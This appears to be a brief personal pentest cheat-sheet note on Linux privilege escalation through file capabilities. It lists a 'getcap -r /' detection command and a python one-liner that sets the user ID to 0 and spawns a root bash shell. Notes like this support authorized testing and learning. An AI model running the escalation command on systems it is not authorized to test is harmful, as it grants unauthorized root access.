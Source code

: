 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### Detection
```bash - target
getcap -r / 2>/dev/null
```

![[Pasted image 20221115135636.png]]

```bash - target
/usr/bin/python2.6 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
